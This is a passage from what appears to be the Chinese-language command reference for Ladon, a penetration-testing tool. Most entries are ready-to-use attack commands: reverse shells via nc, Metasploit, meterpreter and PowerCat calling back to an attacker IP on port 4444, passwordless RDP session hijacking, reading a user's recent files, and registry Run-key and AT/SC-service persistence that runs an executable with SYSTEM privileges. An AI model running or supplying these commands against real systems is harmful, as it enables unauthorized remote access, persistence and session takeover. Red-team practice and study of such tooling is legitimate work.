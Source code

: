 ##### 069 获取本机内网IP与外网IP 	
Ladon GetIP

##### 070 一键迷你WEB服务器 	
Ladon WebSer 80
Ladon web 80

### 反弹Shell

##### 071 反弹TCP NC Shell
Ladon ReverseTcp 192.168.1.8 4444 nc

##### 072 反弹TCP MSF Shell
Ladon ReverseTcp 192.168.1.8 4444 shell

##### 073 反弹TCP MSF MET Shell
Ladon ReverseTcp 192.168.1.8 4444 meter

##### 074 反弹HTTP MSF MET Shell
Ladon ReverseHttp 192.168.1.8 4444

##### 075 反弹HTTPS MSF MET Shell
Ladon ReverseHttps 192.168.1.8 4444

##### 076 反弹TCP CMD & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd
Ladon PowerCat 192.168.1.8 4444 psh

##### 077 反弹UDP Cmd & PowerShell Shell
Ladon PowerCat 192.168.1.8 4444 cmd udp
Ladon PowerCat 192.168.1.8 4444 psh udp

##### 078 RDP桌面会话劫持（无需密码）
Ladon RDPHijack 3
Ladon RDPHijack 3 console

##### 079 OXID定位多网卡主机
Ladon 192.168.1.8/24 EthScan
Ladon 192.168.1.8/24 OxidScan

#### 080 查看用户最近访问文件
Ladon Recent

#### 081 添加注册表Run启动项
Ladon RegAuto Test c:\123.exe

#### 082 AT计划执行程序(无需时间)(system权限)
Ladon at c:\123.exe
Ladon at c:\123.exe gui

#### 083 SC服务加启动项&执行程序(system权限）
Ladon sc c:\123.exe
Ladon sc c:\123.exe gui
Ladon sc c:\123.exe auto ServerName
